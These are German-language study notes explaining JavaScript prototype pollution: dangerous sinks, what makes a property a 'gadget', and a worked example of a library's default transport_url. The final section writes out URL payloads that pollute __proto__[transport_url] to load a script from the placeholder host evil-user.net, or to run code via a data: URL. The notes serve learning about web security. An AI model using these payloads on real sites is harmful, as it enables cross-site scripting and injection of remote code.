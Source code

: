 **Typische Beispiele (ohne Exploit-Details):**
- **Client (DOM/XSS):** `innerHTML`, `outerHTML`, `document.write`, unsichere Template-Renderer, jQuery-APIs wie `.html()`, dynamische Event-Handler.
- **Allgemeines JS:** dynamische Ausführung über `Function(...)`, `setTimeout("...")` (String-Variante), gefährliche Template-Interpolation.
- **Server (Node.js):** Konfig-Flags/Optionen, die zu **Command-Execution** oder **Pfad-Manipulation** führen können (z. B. wenn Libraries intern Shell/FS-Operationen anhand von Options-Properties ausführen).

 > [!tip]- In Dumm erklärt:
> **Was ist ein Sink?**
> Ein **Sink** ist einfach **eine gefährliche Stelle/Operation**, die problematisch wird, **wenn angreiferkontrollierte Daten hineinfließen**. Das kann eine JS-Funktion, ein DOM-API, ein Template-Renderer, ein Dateipfad-Joiner, etc. sein.
> 
>**Warum passt Prototype Pollution dazu?**  
   Durch Prototype Pollution kannst du **sonst interne/„unsteuerbare“ Properties** beeinflussen. Wenn der Code **diese Property in einen Sink steckt**, passiert der Schaden (z. B. DOM XSS oder sogar RCE in Node). Die Ausführung wirkt „intern“, weil sie **im Kontext der Anwendung** läuft (Rechte/Cookies/Origin), nicht im fremden Tab.


## Prototype pollution gadgets

Ein **Gadget** ist eine _Property_, mit der sich eine Prototype-Pollution in einen **echten Exploit** verwandeln lässt. Damit etwas ein Gadget ist, müssen **beide** Punkte gelten:
1. **Unsichere Nutzung:** Die Property wird später **gefährlich verwendet** (z. B. ungefiltert an einen **Sink** wie `innerHTML`, `Function`, Dateipfad-Join, etc. übergeben).
2. **Angreifer-kontrollierbar:** Das betroffene Objekt **erbt** die Property über den **Prototyp** (also nicht lokal definiert), sodass der Angreifer ihren Wert via Pollution setzen kann.
### Idee
- Eine Library liest Optionen aus `config`.
- Wenn `config.transport_url` **nicht gesetzt** ist, nimmt sie einen **Default**:
    `let transport_url = config.transport_url || defaults.transport_url;`

- Später lädt sie damit ein Script:
    ``let script = document.createElement('script'); script.src = `${transport_url}/example.js`; document.body.appendChild(script);``
    
### Wo ist das Gadget?
- **Gadget-Property:** `transport_url`
- Wenn `config` **keine eigene** `transport_url`-Property hat, **erbt** es die vom **Prototype**.
- **Prototype Pollution** kann per URL passieren:
    `https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net`
    → Dann wird `script.src` zu `//evil-user.net/example.js` (oder was der Angreifer will).
    
### Direktes XSS per `data:`-URL
- Statt einer Domain kann der Angreifer eine **`data:`-URL** setzen, die sofort Code ausführt:
    `https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//`
- Das `//` am Ende **kommentiert** den fest eingebauten Suffix `/example.js` weg.
    